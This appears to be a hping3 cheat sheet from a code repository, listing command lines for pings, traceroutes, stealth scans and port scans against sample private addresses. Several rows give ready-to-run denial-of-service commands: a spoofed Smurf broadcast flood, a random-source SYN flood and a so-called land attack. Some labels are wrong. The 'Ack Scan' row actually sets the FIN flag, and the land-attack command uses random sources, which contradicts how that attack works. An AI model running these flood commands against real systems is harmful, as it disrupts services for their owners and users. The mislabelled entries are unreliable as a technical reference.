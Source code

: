 # Hping 
     * Supports TCP,UDP,ICMP
     * Firewall testing
     * Port scnning
     * Remote OS fingerprinting
     * Dos attacks

| Command   | Use   |
| ------------ | ------------ |
|hping3 -S 192.168.10.15 -p 80 -c 3   |ping   |
|hping3 -1 172.16.1.2   |normal ping utility, sending ICMP-echo und receiving ICMP-reply   |
|hping3 --traceroute -V -1 172.16.1.2   |similar to famous utilities like tracert (windows) or traceroute (linux)   |
|hping3 -V -S -p 80 -s 5050 172.16.1.2   |send a Syn packet to a specified port 80   |
|hping3 -c 1 -V -1 -C 17 172.16.1.2   |sends a ICMP address mask request ( Type 17 )   |
|hping3 -c 1 -V -p 80 -s 5050 -F 172.16.1.2   |Ack Scan: This scan can be used to see if a host is alive (when Ping is blocked for example). This should send a RST response back if the port is open   |
|hping3 -c 1 -V -p 80 -s 5050 -M 0 -UPF 172.16.1.2   |Xmas Scan: This scan sets the sequence number to zero and set the URG + PSH + FIN flags in the packet. If the target device's TCP port is closed, the target device sends a TCP RST packet in reply. If the target device's TCP port is open, the target discards the TCP Xmas scan, sending no reply   |
|hping3 -c 1 -V -p 80 -s 5050 -Y 172.16.1.2   |Null Scan: This scan sets the sequence number to zero and have no flags set in the packet. If the target device's TCP port is closed, the target device sends a TCP RST packet in reply. If the target device's TCP port is open, the target discards the TCP NULL scan, sending no reply   |
|hping3 -1 --flood -a VICTIM_IP BROADCAST_ADDRESS   |Smurf Attack: This is a type of denial-of-service attack that floods a target system via spoofed broadcast ping messages   |
|hping3 -V -c 1000000 -d 120 -S -w 64 -p 445 -s 445 --flood --rand-source 172.16.1.2   |DOS Land Attack   |
|hping3 --flood -S -V --rand-source 172.16.1.2   |DDOS attck (SYN)   |
|hping3 --scan 0-500 -S 172.16.1.2   |port scan (SYN)   |
|hping3 --scan 0-500 -X 172.16.1.2   |port scan (Xmas)   |

 --flood: sent packets as fast as possible. Don't show replies.
    --rand-dest: random destionation address mode. see the man.
    -V <-- Verbose
    -c --count: packet count
    -d --data: data size
    -S --syn: set SYN flag
    -w --win: winsize (default 64)
    -p --destport [+][+]<port> destination port(default 0) ctrl+z inc/dec
    -s --baseport: base source port (default random) 
